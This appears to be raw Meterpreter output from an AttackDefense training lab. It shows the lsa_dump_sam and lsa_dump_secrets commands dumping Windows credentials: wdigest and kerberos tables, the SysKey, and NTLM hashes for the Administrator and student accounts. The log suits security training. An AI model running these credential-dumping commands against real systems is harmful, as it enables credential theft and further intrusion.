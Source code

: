 wdigest credentials
===================

Username        Domain         Password
--------        ------         --------
(null)          (null)         (null)
ATTACKDEFENSE$  WORKGROUP      (null)
Administrator   ATTACKDEFENSE  (null)

kerberos credentials
====================

Username        Domain         Password
--------        ------         --------
(null)          (null)         (null)
Administrator   ATTACKDEFENSE  (null)
attackdefense$  WORKGROUP      (null)


meterpreter > 

meterpreter > lsa_dump_sam
[+] Running as SYSTEM
[*] Dumping SAM
Domain : ATTACKDEFENSE
<strong>SysKey : 377af0de68bdc918d22c57a263d38326
</strong>Local SID : S-1-5-21-3688751335-3073641799-161370460

SAMKey : 858f5bda5c99e45094a6a1387241a33d

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: e3c61a68f1b89ee6c8ba9507378dc88d

RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount
  Hash NTLM: 58f8e0214224aebc2c5f82fb7cb47ca1

RID  : 000003f0 (1008)
User : student
  Hash NTLM: bd4ca1fbe028f3c5066467a7f6a73b0b


meterpreter > 

meterpreter > lsa_dump_secrets 
[+] Running as SYSTEM
[*] Dumping LSA secrets
Domain : ATTACKDEFENSE
SysKey : 377af0de68bdc918d22c57a263d38326

Local name : ATTACKDEFENSE ( S-1-5-21-3688751335-3073641799-161370460 )
Domain name : WORKGROUP
